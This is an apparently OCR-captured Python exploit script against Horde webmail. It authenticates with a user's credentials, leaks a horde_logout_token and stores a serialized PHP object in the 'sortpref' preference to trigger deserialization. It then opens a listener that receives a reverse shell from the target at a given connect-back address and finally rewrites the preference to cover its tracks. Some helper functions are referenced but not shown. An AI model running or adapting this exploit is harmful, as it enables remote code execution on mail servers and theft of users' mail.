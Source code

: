     def get_patch():
        """ Our original array """
        patch  = 'a:1:{'
        patch += 's:5:"INBOX";a:1:{'
        patch += 's:1:"b";i:6;'
        patch += '}}'
        return patch

    def set_pref(t, p, s, k, o):
        """ A primitive that inserts a string into the database """
        uri = "http://%s%sservices/ajax.php/imp/setPrefValue" % (t, p)
        p = {
            "pref" : k,
            "value" : o,
        }
        c = { "Horde" : s }
        r = requests.get(uri, params=p, cookies=c)
        match = re.search("horde_logout_token=(.*)&", r.text)
        assert match, "(-) failed to leak the horde_logout_token!"
        p['token'] = match.group(1)
        r = requests.get(uri, params=p, cookies=c)
        assert ("\"response\":true" in r.text and r.status_code == 200), "(-) failed to set the preference!"

    def handler(lport):
        print("(+) starting handler on port %d" % lport)
        t = telnetlib.Telnet()
        s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
        s.bind(("0.0.0.0", lport))
        s.listen(1)
        conn, addr = s.accept()
        print("(+) connection from %s" % addr[0])
        t.sock = conn
        print("(+) pop thy shell!")
        t.interact()

    def fix_path(p):
        if p == "/":
            return p
        if not p.startswith("/"):
            p = "/%s" % p
        if not p.endswith("/"):
            p = "%s/" % p
        return p

    def main():
        if len(sys.argv) < 5:
            print("(+) usage %s <target> <path> <user:pass> <connectback:port>" % sys.argv[0])
            print("(+) eg: %s 172.16.175.148 /horde/ hordeuser:pass123 172.16.175.1:1337" % sys.argv[0])
            sys.exit(0)
        target = sys.argv[1]
        path   = fix_path(sys.argv[2])
        user   = sys.argv[3].split(":")[0]
        pswd   = sys.argv[3].split(":")[1]
        host   = sys.argv[4].split(":")[0]
        port   = int(sys.argv[4].split(":")[1])
        print("(+) targeting http://%s%s" % (target, path))
        session = get_session(target, path, user, pswd)
        print("(+) obtained session %s" % session)
        set_pref(target, path, session, 'sortpref', get_pop())
        print("(+) inserted our php object")
        print("(+) triggering deserialization...")
        trigger_deserialization(target, path, session, host, port)
        set_pref(target, path, session, 'sortpref', get_patch())
        print("(+) repaired the target!")
